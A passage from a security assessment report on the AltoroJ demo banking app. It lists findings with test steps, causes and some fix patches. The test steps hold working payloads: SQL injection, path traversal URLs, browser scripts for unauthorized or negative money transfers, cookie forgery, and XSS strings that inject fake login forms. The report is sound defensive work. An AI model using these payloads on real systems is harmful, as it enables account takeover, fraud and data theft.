+				throw new SQLException("Date-time query must be in the format of yyyy-mm-dd HH:mm:ss", e);
+			throw e;
+		}
+
+		return transactions.toArray(new Transaction[transactions.size()]);
 	}

 	public static String[] getBankUsernames() {
```

### Re-test steps

Run the same test steps and notice how the server returns an error about the incorrect date format instead:


## SQL injection in REST API (transactions)

### Test steps

Run the following script while on the website (F12 > console), and observe how all transactions on the system are listed:

```javascript
username = 'jdoe';
password = 'demo1234';
res = await (
  await fetch('/altoromutual/api/login', {
    headers: { 'Content-Type': 'application/json' },
    method: 'POST',
    body: JSON.stringify({
      username,
      password
    })
  })
).json();

auth = res.Authorization;

res = await (
  await fetch('/altoromutual/api/account/800004/transactions', {
    headers: { 'Content-Type': 'application/json', Authorization: auth },
    method: 'POST',
    body: JSON.stringify({
      startDate: '2018-06-11',
      endDate: "2018-06-11 23:59:59') OR 1=1 --"
    })
  })
).json();
```


### Cause

`DBUtil.getTransactions()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query becomes:

```sql
SELECT * FROM TRANSACTIONS WHERE (ACCOUNTID = "whatever" OR ACCOUNTID = "whatever") AND (DATE BETWEEN '2018-06-11' AND '2018-06-11 23:59:59') OR 1=1 --') ORDER BY DATE DESC
```

### Fix explanation

Fixed by fixing the previous vulnerability since it shared the same vulnerable code.

### Fix patch

Fixed by fixing the previous vulnerability since it shared the same vulnerable code.

### Re-test steps

Run the same script in the test steps and observe how the server returns an error instead:


## Unauthorized file access (`Q3_earnings.rtf`)

### Test steps

- Click on "INSIDE ALTORO MUTUAL":


- Click on "2006 community annual report":


- Change the last part of the URL to `Q3_earning.rtf`:


- Download and view the file:


### Cause

Everything under the `WebContent` directory and not in the `WEB-INF` directory is served by Tomcat.

### Fix explanation

Move the `Q3_earnings.rtf` file outside of the `WebContent` directory.

### Fix patch

```diff
diff --git a/src/WebContent/pr/Q3_earnings.rtf b/src/confidential/Q3_earnings.rtf
similarity index 100%
rename from src/WebContent/pr/Q3_earnings.rtf
rename to src/confidential/Q3_earnings.rtf
```

### Re-test steps

Do the same test steps and observe how the server returns a "not found" error instead:


## Unauthorized file access (`Draft.rtf`)

### Test steps

- Click on "INSIDE ALTORO MUTUAL":


- Click on "2006 community annual report":


- Change the last part of the URL to `Draft.rtf`:


- Download and view the file:


### Cause

Everything under the `WebContent` directory and not in the `WEB-INF` directory is served by Tomcat.

### Fix explanation

Move the `Draft.rtf` file outside of the `WebContent` directory.

### Fix patch

```diff
diff --git a/src/WebContent/pr/Draft.rtf b/src/confidential/Draft.rtf
similarity index 100%
rename from src/WebContent/pr/Draft.rtf
rename to src/confidential/Draft.rtf
```

### Re-test steps

Do the same test steps and observe how the server returns a "not found" error instead:


## Path traversal attack

### Test steps

- Visit `/index.jsp?content=../WEB-INF/app.properties` and observe an application configuration file get leaked


- Visit `/index.jsp?content=../WEB-INF/web.xml` and observe an application configuration file get leaked


### Cause

In `index.jsp`, content is served from the `static/` directory using user provided subdirectories which can include dot-dot-slashes (`../`)

### Fix explanation

In `index.jsp`, if the resulting path's base directory is not `static/`, return the `static/default.htm` page.

### Fix patch

```diff
diff --git a/src/WebContent/index.jsp b/src/WebContent/index.jsp
index f3e30b1..a00e710 100644
--- a/src/WebContent/index.jsp
+++ b/src/WebContent/index.jsp
@@ -1,4 +1,6 @@
 <%@page import="java.io.BufferedReader"%>
+<%@page import="java.nio.file.Paths"%>
+<%@page import="java.nio.file.Path"%>
 <%@page import="java.io.InputStream"%>
 <%@page import="java.io.InputStreamReader"%>
 <%@page import="com.ibm.security.appscan.altoromutual.util.ServletUtil"%>
@@ -94,7 +96,13 @@ IBM AltoroJ
 	 		<% } %>
 		<%
 		} else {
-			content = "static/"+content;
+			String basePath = "static";
+			Path resolved = Paths.get(basePath).resolve(content).normalize();
+			System.out.println(resolved);
+			if (resolved.startsWith(basePath))
+				content = resolved.toString();
+			else
+				content = "static/default.htm";
 		%>

 		<%  try { %>
```

The debugging message was removed in a later patch.

### Re-test steps

- Visit `/index.jsp?content=../WEB-INF/app.properties` and observe how the server returns the deafult page:



- Visit `/index.jsp?content=../WEB-INF/web.xml` and observe how the server returns the deafult page:



## Exploiting business logic flaw (excessive money transfer)

### Test steps

- Go to `View Account Summary`:


- Select an account (A) and make note of the available balance:


- Select an account (B) and make note of the available balance:


- Go to `Transfer Funds`, change the `To Account` and make note of it, enter an amount that is larger than the balance, click `Transfer Money`:


- Click `Transfer Money` and notice how the operation succeeds:


- View the available balance in account (A) and notice how it becomes negative:


- View the available balance in account (B) and notice how it increases:


### Cause

`OperationsUtil.doServletTransfer` does not check the available balance.

### Fix explanation

### Fix patch

### Re-test steps

## Exploiting business logic flaw (excessive money transfer in REST API)

### Test steps

- Enter the following script while on the website (F12 > console), and observe how excessive funds (funds that are greater than 800005's balance) are sent to 800004 account:

  ```javascript
  username = 'jdoe';
  password = 'demo1234';
  res = await (
    await fetch('/altoromutual/api/login', {
      headers: { 'Content-Type': 'application/json' },
      method: 'POST',
      body: JSON.stringify({
        username,
        password
      })
    })
  ).json();

  auth = res.Authorization;

  res = await (
    await fetch('/altoromutual/api/transfer', {
      headers: { 'Content-Type': 'application/json', Authorization: auth },
      method: 'POST',
      body: JSON.stringify({
        toAccount: '800004',
        fromAccount: '800005',
        transferAmount: '1000000000000'
      })
    })
  ).json();
  ```


- Confirm that the funds are sent as in the previous vulnerability

### Cause

`OperationsUtil.doApiTransfer` does not do business logic checks before calling `DBUtil.transferFunds`.

### Fix explanation

### Fix patch

### Re-test steps

## Exploiting business logic flaw (negative money transfer in REST API)

### Test steps

- Run the following script in the browser's console while on the website (F12 > console), and observe the negative funds get sent successfully:

  ```javascript
  username = 'jdoe';
  password = 'demo1234';
  res = await (
    await fetch('/altoromutual/api/login', {
      headers: { 'Content-Type': 'application/json' },
      method: 'POST',
      body: JSON.stringify({
        username,
        password
      })
    })
  ).json();

  auth = res.Authorization;

  res = await (
    await fetch('/altoromutual/api/transfer', {
      headers: { 'Content-Type': 'application/json', Authorization: auth },
      method: 'POST',
      body: JSON.stringify({
        toAccount: '800005',
        fromAccount: '800004',
        transferAmount: '-2000000'
      })
    })
  ).json();
  ```


- Confirm the new balances as in the previous vulnerability

### Cause

`OperationsUtil.doApiTransfer` does not do business logic checks before calling `DBUtil.transferFunds`.

### Fix explanation

### Fix patch

### Re-test steps

## Bypassing access control (sending money from a foreign account in the REST API)

### Test steps

- Run the following script in your browser's dev tools' console while on the website (F12 > console), and observe how funds get sent from 800000 to 800004 although 800000 does not belong to the sending user:

  ```javascript
  username = 'jdoe';
  password = 'demo1234';
  res = await (
    await fetch('/altoromutual/api/login', {
      headers: { 'Content-Type': 'application/json' },
      method: 'POST',
      body: JSON.stringify({
        username,
        password
      })
    })
  ).json();

  auth = res.Authorization;

  res = await (
    await fetch('/altoromutual/api/transfer', {
      headers: { 'Content-Type': 'application/json', Authorization: auth },
      method: 'POST',
      body: JSON.stringify({
        fromAccount: '800000',
        toAccount: '800004',
        transferAmount: '2000000'
      })
    })
  ).json();
  ```


- Confirm the new balances as in the previous vulnerability

### Cause

`OperationsUtil.doApiTransfer` does not do business logic checks before calling `DBUtil.transferFunds`.

### Fix explanation

### Fix patch

### Re-test steps

## Bypassing access control (sending money from a foreign account through cookie manipulation)

### Test steps

- Login with Jane Doe's account (jdoe, demo1234)

- Go to `My Account` > `Transfer Funds`:


- Run the following javascript code in the browser console while on the page (F12 > console) to add the victim's account to your `AltoroAccounts` cookie:

  ```javascript
  evilCookie = btoa('800000~evil~101|800004~Savings~101');
  document.cookie = `AltoroAccounts=${evilCookie}`;
  opt = document.createElement('option');
  opt.value = '800000';
  opt.innerHTML = '800000 victim';
  fromAccount.appendChild(opt);
  ```


- Choose "800000 victim" from the "from" dropdown list (notice that it does not belong to Jane Doe), choose one of your accounts from the "to" drop down list and enter an amount of money:


- Click `Transfer Money` and notice how the operation is successful:


### Cause

`OperationsUtil.doServletTransfer()` checks for a cookie called `AltoroAccounts`, and if it exists, it uses it to determine the user's accounts. This cookie can be modified on the client side.

### Fix explanation

### Fix patch

### Re-test steps

## Bypassing access control (viewing a foreign account details)

### Test steps

- Go to "View Account Summary" > "Go" (on any account)


- Change the `listAccounts` URL parameter to a bank account number of another user, and observe how their account details are returned


### Cause

`balance.jsp` does not check if the account id belongs to the logged in user and the database does not filter the accounts based on the logged in user

### Fix explanation

### Fix patch

### Re-test steps

## Bypassing access control (getting a foreign account details through the REST API)

### Test steps

Run the following script in your browser's dev tools' console while on the website (F12 > console), and observe how you can get the details of the 800000 account which does not belong to `jdoe`:

```javascript
username = 'jdoe';
password = 'demo1234';
res = await (
  await fetch('/altoromutual/api/login', {
    headers: { 'Content-Type': 'application/json' },
    method: 'POST',
    body: JSON.stringify({
      username,
      password
    })
  })
).json();

auth = res.Authorization;

res = await (
  await fetch('/altoromutual/api/account/800000', {
    headers: { 'Content-Type': 'application/json', Authorization: auth },
    method: 'GET'
  })
).json();
```


### Cause

`AccountAPI.getAccountBalance()` does not check whether the account in the parameter belongs to the user and the database does not filter the accounts based on the user

### Fix explanation

### Fix patch

### Re-test steps

## Bypassing access control (getting a the last ten transactions of a foreign account through the REST API)

### Test steps

Run the following script in your browser's dev tools' console while on the website (F12 > console), and observe how you can get the last ten transactions of the 800002 account which does not belong to `jdoe`:

```javascript
username = 'jdoe';
password = 'demo1234';
res = await (
  await fetch('/altoromutual/api/login', {
    headers: { 'Content-Type': 'application/json' },
    method: 'POST',
    body: JSON.stringify({
      username,
      password
    })
  })
).json();

auth = res.Authorization;

res = await (
  await fetch('/altoromutual/api/account/800002/transactions', {
    headers: { 'Content-Type': 'application/json', Authorization: auth },
    method: 'GET'
  })
).json();
```


### Cause

`AccountAPI.showLastTenTransactions()` does not check whether the account in the parameter belongs to the user and the database does not filter the transactions based on the user

### Fix explanation

### Fix patch

### Re-test steps

## Bypassing access control (accessing admin pages)

### Test steps

- Log in as a non-admin user


- Visit /admin/admin.jsp and observe how the user can access admin pages


### Cause

The admin URL pattern in `AdminFilter` in `web.xml` is misspelled (`/adimn/*` instead of `/admin/*`)

### Fix explanation

### Fix patch

### Re-test steps

## Cross site scripting in `/bank/customize.jsp`

### Test steps

- Log in as any user (you will be the victim)

- Visit `/bank/customize.jsp?lang=%3Cbr%3E%3Cform%3E%3Clabel%3Eevil%20username%3C/label%3E%3Cinput%20type=%27text%27%3E%3Cbr%3E%3Clabel%3Eevil%20password%3C/label%3E%3Cinput%20type=%27password%27%3E%3Cinput%20type=%27submit%27%3E%3C/form%3E` and observe how an evil form was injected:


### Cause

`customize.jsp` does not sanitize the request parameter before placing it on the DOM

### Fix explanation

### Fix patch

### Re-test steps

## Cross site scripting in `/search.jsp`

### Test steps

- You are the victim, visit `/search.jsp?query=%3Cform%3E%3Clabel%3Eevil+username%3C%2Flabel%3E%3Cinput+type%3D%22text%22%3E%3Cbr%3E%3Clabel%3Eevil+password%3C%2Flabel%3E%3Cinput+type%3D%22password%22%3E%3C%2Fform%3E` and observe how an evil form was injected:


### Cause

`search.jsp` does not sanitize the request parameter before placing it on the DOM

### Fix explanation

### Fix patch

### Re-test steps

## Cross site scripting in `/util/serverStatusCheckService.jsp`

### Test steps

- You are the victim, visit `/util/serverStatusCheckService.jsp?HostName=%3Cscript%3Ealert(%22XSS%20injected%22)%3C/script%3E` and observe how an arbitrary script is run


### Cause

`serverStatusCheckService.jsp` does not sanitize the request parameter before placing it on the DOM

### Fix explanation

### Fix patch

### Re-test steps

## Cross site scripting in `/bank/queryxpath.jsp`

### Test steps

- Log in as any user (you will be the victim)

- Visit `/bank/queryxpath.jsp?content=queryxpath.jsp&query=%22/%3E%3Cscript%3Ealert(%27xss%20injected%27)%3C/script%3E` and observe how an arbitrary script is run


### Cause

`queryxpath.jsp` does not sanitize the request parameter before placing it on the DOM

### Fix explanation

### Fix patch

### Re-test steps

## Cross site scripting in `/bank/transaction.jsp`

### Test steps

- Log in as any user (you will be the victim)

- Visit `/bank/transaction.jsp?startDate=%22/%3E%3Cscript%3Ealert(%22XSS%20injected%22)%3C/script%3E` and observe how an arbitrary script is run


### Cause

`transaction.jsp` does not sanitize the request parameters before placing them on the DOM

### Fix explanation

### Fix patch

### Re-test steps

## Cross site scripting in `/bank/feedbacksuccess.jsp`

### Test steps

You are the vitim, visit `/feedbacksuccess.jsp?email_addr=%3Cform%20method=%22POST%22%20action=%22/test%22%3E%3Clabel%3EEvil%20username%3C/label%3E%3Cinput%20type=%22text%22%3E%3Cbr%3E%3Clabel%3EEvil%20password%3C/label%3E%3Cinput%20type=%22password%22%3E%3Cbr%3E%3Cinput%20type=%22submit%22%3E` and observe how an evil form is injected:


### Cause

The `sanitzieHtmlWithRegex` method that `feedbacksuccess.jsp` uses does not exhaustively sanitize the request parameter before placing it on the DOM

### Fix explanation

### Fix patch

### Re-test steps

## Unvalidated redirect in `/bank/customize.jsp`

### Test steps

- Log in as any user (you will be the victim)

- Visit `/bank/customize.jsp?content=https://www.google.com` and observe how you are redirected to `https://www.google.com` without warning.


### Cause

`customize.jsp` sends a redirect header to whatever is in the `content` request parameter
